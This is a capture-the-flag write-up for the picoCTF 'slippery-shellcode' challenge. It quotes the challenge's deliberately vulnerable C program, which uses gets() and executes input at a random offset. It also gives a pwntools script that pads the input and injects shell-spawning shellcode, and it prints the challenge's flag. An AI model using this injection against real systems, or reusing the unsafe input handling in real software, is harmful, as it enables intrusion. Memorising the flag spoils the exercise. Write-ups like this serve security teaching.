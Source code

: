 # slippery-shellcode

Points : 200

# Question

This [program](vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server. [Source](vuln.c).

# Solution

same as [handy-shellcode](https://github.com/netanelc305/picoCTF-2019/tree/master/Binary%20Exploitation/handy-shellcode) we need to spawn shell and disply flag.txt contant to get the flag .

by examin the source code we can see that we have random element .

```C
#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

This time we only need to overflow enough before inject the shellcode and we can spawn the shell  - [script](script.py)

```python
from pwn import *

proc = process('vuln') 
payload = 'a'*127+asm(shellcraft.i386.linux.sh())
proc.sendline(payload)
proc.interactive()
```

![](slippery1.png)


# Flag
picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}

